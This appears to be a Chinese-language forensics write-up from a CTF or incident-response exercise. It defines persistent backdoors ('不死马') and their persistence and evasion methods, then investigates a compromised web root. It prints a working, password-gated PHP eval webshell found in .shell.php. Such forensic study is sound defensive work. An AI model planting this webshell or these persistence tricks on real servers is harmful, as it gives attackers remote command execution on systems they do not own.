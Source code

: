 **什么是《不死马》？**

不死马（Persistence Backdoor）是一种能够在系统中保持长期存在并持续运行的恶意软件，即使系统重启或某些安全措施生效后，它依然能够恢复运行。不死马通常会通过修改系统关键配置、添加定时任务、劫持系统进程等手段来实现持久化。

简单来说；

不死马是一种具有持久性的后门程序，它被设计用来在受感染的系统上长期驻留并保持活跃。其目的是确保攻击者对系统的访问不会因为系统重启或其他干预措施而中断。

 **《不死马》特征**

* **持久性**：

  * **自启动**：通过修改系统启动项、服务、计划任务等方式实现自启动。
  * **文件隐藏**：使用技术手段隐藏自身文件，避免被发现和删除。
  * **多重存在**：可能在多个位置部署副本，增强存活能力。
* **隐蔽性**：

  * **低调运行**：以低优先级运行，不占用过多系统资源，减少被注意的可能。
  * **多态性**：定期更改自身代码或行为模式，规避签名检测。
  * **日志清除**：清除自身操作痕迹，减少被追踪的可能。
* **多样化的保持机制**：

  * **启动项**：在 Windows 中，可以修改注册表中的启动项，在 Linux 中，可以修改 `rc.local`​ 或 `crontab`​。
  * **服务劫持**：创建或劫持合法的系统服务。
  * **计划任务**：在系统计划任务中添加恶意任务。

这里因为一些特殊的原因我们是不能直接检查计划任务：crontab -l  
启动也没有看出什么来；

> cat /etc/rc.local  
> ls /etc/init.d/  
> systemctl list-unit-files --type=service

那没办法了，我们只能从题一找出的三个文件继续分析；

先查看一下.shell.php；

	cat .shell.php

​![在这里插入图片描述](assets/net-img-4ef4a2ed9b044d8399365d6db6a1c02c-20240628211442-1gj7r97.png)​

	<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>root@ip-10-0-10-3:/var/www/html#

感觉就是这个不死马，但是还不是很能确认，我们继续查一下index.php；

​![在这里插入图片描述](assets/net-img-c291413b96fc42ea92dc2985dce09ecd-20240628211442-99docac.png)​
